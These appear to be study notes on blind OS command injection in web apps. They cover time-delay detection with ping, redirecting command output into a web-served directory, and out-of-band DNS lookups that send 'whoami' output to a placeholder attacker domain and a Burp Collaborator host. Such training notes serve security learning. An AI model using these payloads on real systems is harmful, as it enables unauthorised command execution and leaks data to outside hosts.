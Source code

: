 ## Blind Injection
Common Vulns
* Can still be exploited, just need different techniques
* Common Mail Syntax
   	* mail -s “note” -aFrom:mine@gmail.com victim@gmail.com 

Detecting commands using time delays
* Know the command was executed using ping
* lets your specify number of ICMP packets to send
* & ping -c 10 127.0.0.1 &
* Try all parameters until one works

Exploit by redirecting output
* If app serves static resources from location /var/www/static use:
   	* & whoami > /var/www/static/whoami.txt &
* then you can access that file:
   	* https://vulnerable-website.com/whoami.txt
   	* If you can't access it, look for instances where files are being displayed on the site already (perhaps pictures).
      		* Find the URL used to access those, then inject your file name in there.

Exploiting using OAST technqiues
* & nslookup kgji2ohoyw.web-attacker.com &
   	* Monitor attacker site for the lookup occuring
   	* Determines that command was successfully injected.
   	*  email=x||nslookup+x.burpcollaborator.net||
* Once you know it works, perform a whoami command
   	* & nslookup `whoami`.kgji2ohoyw.web-attacker.com &


